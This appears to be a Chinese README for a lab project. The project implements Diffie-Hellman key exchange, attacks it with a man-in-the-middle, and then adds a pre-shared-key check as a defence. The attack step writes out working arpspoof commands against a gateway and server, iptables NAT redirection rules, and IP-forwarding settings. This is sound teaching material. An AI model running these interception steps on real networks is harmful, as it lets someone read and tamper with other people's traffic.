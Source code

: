 # Diffie-Hellman
Diffie-Hellman协议实现以及改进（中间人攻击）

编译：`make`

-   Step1. 客户端服务器通信

    服务器运行 `./server [server_ip]`

    客户端运行 `./client [server_ip] [client_ip]` ，这里客户端也绑定一下ip是为了后面测试方便

-   Step2. 中间人攻击
+ 终端相关命令
1. 修改中间人到客户端的源IP为服务器IP
iptables -t nat -A POSTROUTING -p tcp -s [mid_ip] -d [client_ip] -j SNAT --to-source [server_ip]
2. 修改客户端到服务器的目的IP为中间人IP
iptables -t nat -A PREROUTING -p tcp -s [client_ip] -d [server_ip] -j DNAT --to [mid_ip]
3. 开启本机的IP转发功能
+ 不开启的话攻击之后会使目标机断网而不是欺骗
+ 开启: echo 1 >/proc/sys/net/ipv4/ip_forward
+ 关闭: echo 0 >/proc/sys/net/ipv4/ip_forward

+ arp欺骗
+ 1.欺骗网关
arpspoof -i [mid_nic_name] -t [client_ip] [gateway_ip]
+ 2.欺骗服务器
arpspoof -i [mid_nic_name] -t [client_ip] [server_ip]

+ 步骤:
    中间人运行 `echo 1 >/proc/sys/net/ipv4/ip_forward` 开启IP转发

    `arpspoof -i [mid_nic_name] -t [client_ip] [gateway_ip]` 欺骗网关

    `arpspoof -i [mid_nic_name] -t [client_ip] [server_ip]`欺骗服务器

    客户端运行`iptables -t nat -A PREROUTING -p tcp -s [client_ip] -d [server_ip] -j DNAT --to [mid_ip]`

    服务器运行 `./server [server_ip]`

    中间人运行 `./mid [mid_ip] [server_ip]`

    客户端运行 `./client [server_ip] [client_ip]`

-   Step3. 预共享密钥改进 防御中间人攻击

+ 使用PSK时server和client必须配置相同的密钥
server发送一个随机字符串到客户端，客户端接受该字符串根据密钥对其进行一些操作(如hash)然后发送回server，server进行一次相同的操作 如果结果和客户端的相同就允许客户端连接，运行时，别的不变，改成 `server-pro` 和 `client-pro` 就行了

以上是单向的，即客户端->(中间人)->服务器，没加服务器对客户端的回应，要加的话把注释去掉加调用改改就行了